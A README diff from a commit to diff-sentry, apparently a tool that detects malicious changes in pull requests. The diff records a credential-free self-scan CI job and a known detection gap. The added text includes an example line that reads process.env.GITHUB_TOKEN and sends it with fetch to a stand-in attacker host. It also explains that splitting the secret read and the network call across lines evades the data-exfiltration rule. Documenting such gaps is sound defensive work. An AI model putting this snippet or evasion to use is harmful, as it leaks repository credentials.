

Before and after one commit to qazbnm456/diff-sentry, a Markdown page: README.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
docs(status): record the shipped self-scan and the accepted exfil gap
Two things the Status section was silent on.

The self-scan job shipped, so "a further tracked increment" was stale — say
what actually runs, and why it is the credential-free `scan` subcommand rather
than the full pipeline (handing creds to a fork PR run means
`pull_request_target`, which is the hole this repo now detects).

More importantly: the cross-line `process.env.<SECRET>` -> JS fetch sink is a
real blind spot in the deterministic layer, and we decided not to close it. A
decision like that has to be written down or it becomes an undiscovered hole
rather than an accepted risk. Includes the correction that `pwn-request` does
not cover it — that rule fires when a privileged workflow is INTRODUCED, not
when a pre-existing one is EXPLOITED, which is what actually happened in the
incident this work came from.

Co-Authored-By: Claude Opus 5 (1M context) <noreply@anthropic.com>

```diff
--- a/README.md
+++ b/README.md
@@ -115,8 +115,30 @@ export loop, fully offline-testable. The planner/analyst can now run on a **Clau
 (`claude-agent-sdk/<model>`, the opt-in `subscription` extra); the classifier stays on its own
 OpenAI-compatible endpoint by design. Host-side GitHub ingestion and the SIEM emitter ship as real, injectable
 seams (unit-tested with fakes); wiring them to a live GitHub/SIEM and adding the cheap pre-filter tier are the
-next increments. CI gates the offline suite + ruff on every push/PR (`.github/workflows/ci.yml`). A further
-tracked increment: a self-review workflow that dogfoods the detector on this repo's own incoming PRs/issues —
-structurally safe because the change is ingested as *data* (never checked out, never executed) and a skewed
-verdict cannot suppress the evidence union; advisory comment only, never a required merge check. Built on
-`rlm-kit` with **zero** changes to the kit — a consumer extends, it doesn't fork.
+next increments. CI gates the offline suite + ruff on every push/PR (`.github/workflows/ci.yml`).
+
+**Dogfooding, half shipped.** The deterministic half now runs on this repo's own changes: the `self-scan`
+job pipes the PR's diff through `python -m diff_sentry scan` and fails on a hit at/above the signal floor.
+It uses the `scan` subcommand rather than the full pipeline on purpose — `scan` needs no creds, so it runs
+under the read-only token a fork PR already gets, whereas handing creds to a fork PR run would require
+`pull_request_target`, the very misconfiguration that opened the AsyncAPI "Miasma" compromise. Because this
+is a *detector* repo, the rule bodies / planner prompt / attack skills / fixtures / eval taskset and the docs
+that tabulate them carry attack patterns as their job, so they are scanned in a report-only step while the
+machinery and the build/CI/dependency surface are gated. Still pending: the live half — an advisory
+self-review that classifies incoming PRs/issues with the model, structurally safe because the change is
+ingested as *data* (never checked out, never executed) and a skewed verdict cannot suppress the evidence
+union; advisory comment only, never a required merge check, and gated behind `workflow_dispatch`/`schedule`
+with a `github.repository` owner guard so forks never fire it.
+
+**Known, accepted gap in the deterministic layer.** A secret read that reaches a JavaScript network sink
+*across lines* (`const t = process.env.GITHUB_TOKEN;` … `fetch('https://attacker.tld', {body: t})`) does not
+fire: `data-exfiltration` requires the secret name and the sink within 80 characters on ONE line, so a
+newline defeats it. The evaluated fix — lightweight taint tracking from the `process.env` assignment to the
+sink call site, suppressed when the target host is first-party — measured zero false positives across the
+corpus benigns and this repo's full history, but it still cannot separate "exfiltrates a token" from
+"legitimately posts to a third-party SaaS", so it is deliberately not shipped rather than shipped noisy.
+This shape currently relies on the planner's judgement; note the deterministic `pwn-request` rule does NOT
+cover it, since that fires when a privileged workflow is *introduced*, not when a pre-existing one is
+*exploited*.
+
+Built on `rlm-kit` with **zero** changes to the kit — a consumer extends, it doesn't fork.
```
